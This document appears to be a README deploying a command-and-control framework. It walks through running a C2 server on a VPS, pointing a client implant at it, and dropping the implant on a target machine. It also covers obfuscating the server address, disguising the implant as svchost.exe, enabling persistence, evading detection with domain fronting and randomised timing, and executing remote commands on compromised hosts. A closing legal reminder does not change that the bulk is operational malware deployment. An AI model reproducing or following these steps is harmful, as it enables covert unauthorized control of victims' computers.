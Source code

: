 # 🚀 Production C2 Deployment Guide

## 📋 **Server Setup (Your VPS/Cloud)**

### **1. Prepare Your Server**
```bash
# On your VPS/Cloud server (Linux):
sudo ufw allow 4444/tcp        # Allow C2 port
sudo ufw enable

# Upload c2_server to your VPS
scp c2_server.exe user@YOUR_VPS_IP:/home/user/
```

### **2. Run C2 Server on VPS**
```bash
# On your VPS:
chmod +x c2_server
./c2_server

# Or in background:
nohup ./c2_server > c2.log 2>&1 &
```

## 🎯 **Client Configuration (Target Machine)**

### **Option 1: Quick Command Line (Testing)**
```bash
# Replace YOUR_VPS_IP with your actual server IP
c2_client.exe --server YOUR_VPS_IP --no-stealth --no-persistence
```

### **Option 2: Production Configuration Script (Recommended)**
```bash
# Run the configuration script
.\configure_production.bat

# Follow prompts:
# - Enter your VPS IP (e.g., 203.0.113.10)
# - Script will build and package everything
```

### **Option 3: Manual Source Code Edit**
```bash
# 1. Edit c2_client\src\main.rs
# Replace "YOUR_VPS_IP" with your actual IP

# 2. Rebuild
.\build.bat

# 3. Deploy
copy output\c2_client.exe to target machine
```

## 🔧 **Configuration Examples**

### **For Domain Names:**
```rust
// In main.rs:
default_value = "myc2server.com"
obfuscate_string("myc2server.com")
```

### **For IP Addresses:**
```rust
// In main.rs:
default_value = "203.0.113.10"
obfuscate_string("203.0.113.10")
```

### **For Custom Ports:**
```rust
// In main.rs:
default_value_t = 8080    // Change from 4444
```

## 🚨 **Security Considerations**

### **Server Hardening:**
- Use strong firewall rules
- Consider using non-standard ports
- Monitor server logs
- Use VPN or proxy for access

### **Client Deployment:**
- Test in isolated environment first
- Use disguised filenames (svchost.exe, etc.)
- Enable persistence for long-term access
- Monitor for detection

### **Network Security:**
- All traffic is encrypted (RSA + AES)
- No plaintext indicators
- Randomized timing to avoid detection
- Consider using domain fronting

## 📝 **Quick Reference Commands**

```bash
# Configure for production
.\configure_production.bat

# Test connectivity
telnet YOUR_VPS_IP 4444

# Deploy client (stealth mode)
c2_client.exe

# Deploy client (debug mode)
c2_client.exe --server YOUR_VPS_IP --no-stealth --no-persistence

# Server admin commands
C2> clients                    # List connected clients
C2> exec <client_id> whoami    # Execute command
C2> results <client_id>        # View results
```

## ⚖️ **Legal Reminder**

- ✅ **Only use on systems you own or have written authorization to test**
- ✅ **Follow responsible disclosure for any findings**
- ❌ **Never use for unauthorized access or malicious purposes**
- 📋 **Document all testing activities thoroughly**

---

**Your production C2 framework is ready for authorized security testing!** 🎉
